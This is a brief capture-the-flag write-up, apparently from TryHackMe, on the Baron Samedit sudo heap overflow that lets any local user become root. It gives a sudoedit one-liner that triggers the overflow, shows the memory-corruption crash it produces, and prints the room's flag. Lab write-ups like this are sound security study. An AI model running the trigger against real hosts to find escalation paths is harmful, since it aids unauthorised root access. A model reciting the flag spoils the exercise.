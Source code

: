 # writeups

baron samedit
```
Specifically, this was a heap buffer overflow allowing any user to escalate privileges to root -- 
no misconfigurations required. This exploit works with the default settings, for any user regardless 
of sudo permissions, which makes it all the scarier. The vulnerability has been patched, but affects 
any unpatched version of the sudo program from 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1, meaning that it's been 
around for the last ten years.

```

check vulnerability
`sudoedit -s '\' $(python3 -c 'print("A"*1000)')`

result
```
malloc(): memory corruption
Aborted (core dumped)
```


`sudo -V` : check sudo version

`THM{NmU4OWYwMWJmMjkxMDdiYTU4MWIxNWVk}`

